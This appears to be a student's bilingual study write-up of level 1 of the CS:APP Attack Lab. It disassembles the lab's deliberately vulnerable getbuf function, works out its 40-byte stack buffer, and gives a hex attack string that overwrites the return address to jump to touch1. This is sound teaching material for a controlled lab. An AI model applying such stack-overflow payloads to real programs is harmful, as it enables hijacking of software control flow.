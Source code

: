 ## Prenote
### Files
```shell
kristin@kristin-PC:~/study/csapp/labs/attacklab/target1$ ls
cookie.txt  ctarget  farm.c  hex2raw  README.txt  rtarget
```

- README.txt: A file describing the contents of the directory
- ctarget: An executable program vulnerable to code-injection attacks
- rtarget: An executable program vulnerable to return-oriented-programming attacks
- cookie.txt: An 8-digit hex code that you will use as a unique identifier in your attacks.
- farm.c: The source code of your target’s “gadget farm,” which you will use in generating return-oriented programming attacks.
- hex2raw: A utility to generate attack strings.

### getbuf()
Both CTARGET and RTARGET read strings from standard input. They do so with the function getbuf defined below:
```c
unsigned getbuf() {
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}
```

### 过程调用的栈帧结构
![avatar](https://github.com/kechenkristin/imagesGitHub/blob/main/notes/csapp/l3t1p4.jpg)

## Level1
### instruction
- tips from pdf
• All the information you need to devise your exploit string for this level can be determined by exam-ining a disassembled version of CTARGET. Use objdump -d to get this dissembled version.  
• The idea is to position a byte representation of the starting address for touch1 so that the ret instruction at the end of the code for getbuf will transfer control to touch1.  
• Be careful about byte ordering.  
• You might want to use GDB to step the program through the last few instructions of getbuf to make sure it is doing the right thing.  
• The placement of buf within the stack frame for getbuf depends on the value of compile-time constant BUFFER_SIZE, as well the allocation strategy used by GCC. You will need to examine the disassembled code to determine its position.  

- 实验步骤
1. 反汇编二进制目标程序bufbomb，获得其汇编
指令代码
2. 从汇编指令中分析获得getbuf函数执行时的栈
帧结构，定位buf数组缓冲区在栈帧中的位置
3. 根据栈帧中需要改变的目标信息及其与缓冲区
的相对位置，设计攻击字符串

### codes
#### touch1
```c
void touch1() {
	vlevel = 1; /* Part of validation protocol */
	printf("Touch1!: You called touch1()\n");
	validate(1);
	exit(0);
```

```asm
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	call   400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	call   401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	call   400e40 <exit@plt>
```
The return address of touch1 is **4017c0**


#### test
```c
void test() {
	int val;
	val = getbuf();
	printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

```asm
(gdb) disas test
Dump of assembler code for function test:
   0x0000000000401968 <+0>:	sub    $0x8,%rsp
   0x000000000040196c <+4>:	mov    $0x0,%eax
   0x0000000000401971 <+9>:	call   0x4017a8 <getbuf>
   0x0000000000401976 <+14>:	mov    %eax,%edx
   0x0000000000401978 <+16>:	mov    $0x403188,%esi
   0x000000000040197d <+21>:	mov    $0x1,%edi
   0x0000000000401982 <+26>:	mov    $0x0,%eax
   0x0000000000401987 <+31>:	call   0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:	add    $0x8,%rsp
   0x0000000000401990 <+40>:	ret    
End of assembler dump.
```

```
(gdb) p (char*)0x403188  
$3 = 0x403188 "No exploit.  Getbuf returned 0x%x\n"  
```

#### getbuf
```c
unsigned getbuf() {
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}
```

```asm
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 8c 02 00 00          call   401a40 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      ret
```

![avatar](https://github.com/kechenkristin/imagesGitHub/blob/main/notes/csapp/l3t1p3.jpg)


### getbuf的栈帧结构
> sub    $0x28,%rsp  
> add    $0x28,%rsp  
十六进制的0x28也就是十进制的40Byte  
![avatar](https://github.com/kechenkristin/imagesGitHub/blob/main/notes/csapp/l3t1p1.jpg)

### 设计攻击字符串(注意要小端方式)
![avatar](https://github.com/kechenkristin/imagesGitHub/blob/main/notes/csapp/l3t1p2.png)

对于字节怎么在计算机里表示我不知道， 但是看向objdump的反汇编文件
> 00000000004017c0 <touch1>:  
一个地址等于八个字节，我们需要40 + 4 + 4 (touch地址）的攻击字符串

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
